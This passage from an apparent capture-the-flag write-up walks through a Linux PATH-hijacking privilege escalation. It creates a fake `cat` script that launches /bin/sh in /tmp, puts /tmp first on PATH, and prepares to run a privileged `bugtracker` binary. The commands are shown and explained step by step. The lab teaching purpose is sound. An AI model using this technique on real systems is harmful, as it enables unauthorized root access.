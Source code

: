 ```
echo "/bin/sh" > cat
```

This command creates a file named `cat` in the `/tmp` directory containing the text `/bin/sh`, which, when executed, will open a shell.

#### Make the `cat` Script Executable

```
chmod +x cat
```

This changes the permissions of the `cat` file to make it executable.

#### Prepend `/tmp` to the `PATH` Environment Variable

```
export PATH=/tmp:$PATH
```

This command modifies the `PATH` environment variable to prioritize the `/tmp` directory. It ensures that when the `cat` command is run, the system will look in `/tmp` first.

#### Display the Modified `PATH`

```
echo $PATH
```

This command outputs the current `PATH` to verify that `/tmp` is now at the beginning of the path list.

#### Summary
By placing a malicious script named `cat` in the `/tmp` directory and modifying the `PATH` environment variable, any call to `cat` will use this malicious script instead of the legitimate `cat` command. This is an attempt to exploit a vulnerability in a program that does not specify the full path to the `cat` command, potentially granting a shell with elevated privileges if the original program runs with higher privileges.

![PE](./Screenshots/oopsiepriv5.png)

Now is finally time to execute the `bugtracker`.
